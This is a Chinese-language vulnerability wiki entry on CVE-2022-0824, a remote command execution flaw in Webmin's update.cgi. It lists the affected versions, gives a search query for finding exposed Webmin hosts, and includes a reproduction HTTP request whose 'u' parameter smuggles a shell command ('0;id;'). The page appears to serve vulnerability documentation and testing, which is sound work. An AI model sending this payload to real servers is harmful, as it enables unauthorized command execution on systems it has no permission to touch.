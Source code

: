 # Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

## 漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。

Webmin 1.990之前版本存在安全漏洞，该漏洞源于软件中存在不正确的访问控制，攻击者可以利用该漏洞实现远程代码执行

## 漏洞影响

<a-checkbox checked>Webmin < 1.990</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827113208771.png)

登录后发送请求包

```php
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![img](/assets/PeiQi-Wiki/img/1661516324481-459f62d3-08f5-49e8-961c-42e4e1b7e4db-20220827113227774.png)